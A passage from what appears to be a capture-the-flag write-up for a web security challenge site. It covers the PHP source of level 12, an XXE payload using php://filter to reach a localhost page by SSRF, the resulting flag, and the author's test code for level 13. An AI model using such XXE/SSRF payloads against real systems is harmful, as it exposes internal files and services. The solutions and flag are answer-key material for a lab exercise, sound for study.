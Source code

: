 ```php
- Thanks to cutz for the QA.
- Thanks to blotus for finding a (now fixed) weakness in the "encryption" function.
- Thanks to nurfed for nagging us about a cheat
*/

$text = 'Niw0OgIsEykABg8qESRRCg4XNkEHNg0XCls4BwZaAVBbLU4EC2VFBTooPi0qLFUELQ==';
$key = ini_get ('user_agent');

if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {
    if ($_SERVER['HTTP_USER_AGENT'] !== $key) {
    	die ("Cheating is bad, m'kay?");
    }
    
    $i = 0;
    $flag = '';
    foreach (str_split (base64_decode ($text)) as $letter) {
        $flag .= chr (ord ($key[$i++]) ^ ord ($letter));
    }
    die ($flag);
}
?>
```

The last part is an obvious hint that SSRF is the answer!
Here's the updated payload:

```xml
<!DOCTYPE user [<!ENTITY internal SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/level12/index.php'>]>  
<user>&internal;</user>
```

`WEBSEC{Many_thanks_to_hackyou2014_web400_MSLC_<3}`

## Level 13

Did some testing on this one:

```php
<?php
$tmp = explode(',',$_GET['ids']);
echo $tmp;
echo "\n";
  for ($i = 0; $i < count($tmp); $i++ ) {
        echo $tmp[$i];
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }
  echo "\n";
  $selector = implode(',', array_unique($tmp));
  echo $selector;
  echo "\n"; 
?>
```
